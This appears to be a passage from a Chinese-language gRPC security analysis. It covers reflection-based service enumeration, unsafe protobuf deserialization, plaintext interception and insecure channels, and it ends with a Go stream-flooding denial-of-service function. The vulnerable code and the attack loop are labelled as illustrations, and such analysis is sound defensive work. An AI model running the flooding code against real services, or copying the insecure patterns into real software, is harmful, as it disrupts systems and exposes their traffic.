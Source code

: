 攻击者可通过反射API逆向服务接口：
```bash
grpcurl -plaintext localhost:50051 list
```

### 2.3 数据序列化安全
#### 2.3.1 反序列化漏洞
ProtoBuf处理过程中可能存在的风险点：
```go
// 潜在不安全的反序列化
func (s *Server) GetUser(ctx context.Context, req *pb.GetUserRequest) (*pb.User, error) {
    var userReq pb.GetUserRequest
    if err := proto.Unmarshal(req.Data, &userReq); err != nil {
        return nil, err
    }
    // 处理逻辑
}
```

## 3. 攻击向量分析
### 3.1 中间人攻击（MITM）
#### 3.1.1 明文通信劫持
未启用TLS时，攻击者可截获：
```wireshark
Frame 1234: 98 bytes on interface en0
HTTP/2 HEADERS frame
:method: POST
:scheme: http
:path: /UserService/GetUser
grpc-timeout: 10S
content-type: application/grpc
```

#### 3.1.2 证书欺骗攻击
使用自签名证书且未严格验证的场景下可能遭受攻击：
```python
# 不安全的客户端连接
channel = grpc.insecure_channel('localhost:50051')
```

### 3.2 服务端资源耗尽
#### 3.2.1 流式DDoS攻击
恶意客户端创建大量未关闭的流：
```go
func attack() {
    conn, _ := grpc.Dial(target, grpc.WithInsecure())
    client := pb.NewDataServiceClient(conn)
    
    for {
        stream, _ := client.StreamData(context.Background())
        go func() {
            for {
                stream.Send(&pb.DataPacket{Payload: make([]byte, 1<<20)})
            }
        }()
    }
}
```
